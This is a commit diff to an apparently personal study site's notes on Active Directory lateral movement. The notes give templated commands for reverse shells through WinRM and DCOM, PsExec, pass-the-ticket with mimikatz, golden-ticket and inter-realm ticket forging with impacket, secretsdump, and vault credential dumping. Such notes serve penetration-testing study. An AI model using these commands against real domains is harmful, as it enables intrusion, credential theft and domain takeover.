

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADPivoting.md, in a window 1280 px wide and 1400 px high, scrolled down 1308 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2182 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
fixed missing pivoting notes

````diff
--- a/markdown/ADPivoting.md
+++ b/markdown/ADPivoting.md
@@ -5,7 +5,7 @@
 
 Useful when we can't install something like ligolo and pivot to compromise an internal machine
 
-## WMI and WinRM
+## Service Pivoting
 
 **Windows Management Instrumentation**
 - Facilitates task automation via creating processes
@@ -33,6 +33,17 @@
 - Use with `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "cmd /c {command}"` or `winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "powershell -nop -w hidden -e {reverse_shell_powershell_base64}"`
 - Can also be done via powershell
 
+**DCOM**
+- Good for lateral movement
+- Exploits the Distributed Component Object Model (DCOM)
+	- Used for creating software components that interact with each other
+	- Local administrator access required
+- Lateral movement attacks documented by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
+- Performed using built-in CreateInstance
+	- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","{target_IP}"))`
+	- `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}","7")`
+
+
 ```
 $username = '{domain_user}';
 $password = '{password}';
@@ -43,7 +54,7 @@
 Enter-PSSession {PSSession_ID_returned}
 ```
 
-## PsExec
+**PsExec**
 - Tool used to replace telnet-like applications and provide remote execution of processes
 - From [PsTools](https://download.sysinternals.com/files/PSTools.zip)
 - Requires:
@@ -52,7 +63,13 @@
 	- File and Printer sharing (on by default)
 - `./PsExec64.exe -i  \\{dnshostname} -u {domain}\{domain_user} -p {password} cmd`
 
-## Overpass the Hash
+**SMB**
+- Domain trusts can be abused to view internal SMB shares
+  - `net view //{dnshostname_or_IP} /all`
+
+## NTLM/Kerberos Pivoting
+
+**Overpass the Hash**
 - Use an NTLM user hash to gain a full Kerberos TGT to get a TGS
 - Assumes we own a server that has a domain user's hash
 - This can act as `RunAs` but for a domain user's hash
@@ -66,7 +83,7 @@
 		- Need to be able to write to C:\Windows
 		- We can just change the local Administrator user if we have an administrative user
 
-## Pass the Ticket
+**Pass the Ticket**
 - TGTs only work on the machine they're created for, whereas TGSs offer flexibility
 - Export current in-memory tickets with `sekurlsa::tickets /export`
 	- This exports all tickets in `.kirbi` format in the same file directory, ls to find the ticket names (among other info)
@@ -74,15 +91,19 @@
 		- `kerberos::ptt {ticket_name}`
 	- If using these to access file shares, running something like `ls \\web04\` will just give an error. Type `ls \\web04\` and press tab (or just `Find-DomainShare` with PowerView)
 
-## DCOM
-- Good for lateral movement
-- Exploits the Distributed Component Object Model (DCOM)
-	- Used for creating software components that interact with each other
-	- Local administrator access required
-- Lateral movement attacks documented by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
-- Performed using built-in CreateInstance
-	- `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","{target_IP}"))`
-	- `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}","7")`
+**Abusing Domain Trusts**
+- Golden ticket
+  - If a parent domain trusts us as a child domain, we can use this to create a golden ticket with SIDs in the ticket's Privilege Attribute Certificate (PAC)
+  - `ticketer.py` can use `krbtgt`'s nthash to create a golden ticket
+    - `ticketer.py -nthash {child_krbtgt_nthash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 fakeuser`
+      - To get the parent domain's sid, we can use `Get-ADDomain -Identity {domain_name}`
+      - To use the ticket, we may need to save it with `export KRB5CCName={path_to_ticket}`, but I think impacket will recognize it in our directory for the specified user
+    - We can then use the ticket to `secretsdump` or `psexec`
+      - `secretsdump.py -k -no-pass {child_domain}/fakeuser@{parent_domain_machine_name}`
+- Forging inter-realm TGT
+  - We can also extract the trust key and use it to create our own trust ticket
+  - `ticketer.py -nthash {child_krbtgt_nthash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 -spn krbtgt/{parent_domain_name} fakeuser`
+    - This will again yield us a golden ticket, which we can use like before with `KRB5CCName` env var set to the path of the ticket
 
-## SMB
-- `net view //{dnshostname_or_IP} /all`
+**Getting More Credentials**
+- `vault::cred /patch` will enumerate vault credentials (creds used in scheduled tasks)
````
Also changed, not shown: markdown/ADExploitation.md (+2 -17 lines).
